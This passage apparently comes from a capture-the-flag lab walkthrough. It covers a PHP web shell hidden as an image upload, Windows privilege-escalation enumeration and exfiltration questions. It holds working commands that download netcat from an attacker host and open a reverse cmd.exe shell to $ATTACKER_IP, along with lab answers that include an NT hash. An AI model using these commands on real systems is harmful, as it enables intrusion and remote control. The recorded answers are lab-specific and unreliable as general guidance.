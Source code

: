 ```bash
$ cd nc.exe

$ sudo python3 -m http.server 80
```

Visit localhost:10003/resources/uploads/matrix.jpg.php?unknown=curl http://$ATTACKER_IP:80/nc64.exe -o nc-unknown.exe

Next, on attacker machine:

```bash
$ nc -lnvp 443
```

In browser visit http://localhost:10003/resources/uploads/matrix.jpg.php?unknown=nc-unknown.exe%20$ATTACKER_IP%20443%20-e%20cmd.exe

---

### ***AV Evasion** Introduction*

Use the command `whoami /priv`.

- [Research] One of the privileges on this list is very famous for being used in the PrintSpoofer and Potato series of privilege escalation exploits -- which privilege is this?

> SeImpersonatePrivilege

- Let's start by looking for non-default services:
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"

There should be a bunch of results returned here. Read through them, paying particular attention to the PathName  column. Notice that one of the paths does not have quotation marks around it.

What is the Name (second column from the left) of this service?

> SystemExplorerHelpService

- Is the service running as the local system account (Aye/Nay)?

```cmd
> sc qc SystemExplorerHelpService
```

> Aye

---

### ***AV Evasion** Privilege Escalation*

Exploit the Unquoted Service path vulnerability!

---

### ***Exfiltration** Exfiltration Techniques & Post Exploitation*

- Is FTP a good protocol to use when exfiltrating data in a modern network (Aye/Nay)?

> Nay

- For what reason is HTTPS preferred over HTTP during exfiltration?

> encryption

- What is the Administrator NT hash for this target?

> a05c3c807ceeb48c47252568da284cd2

---



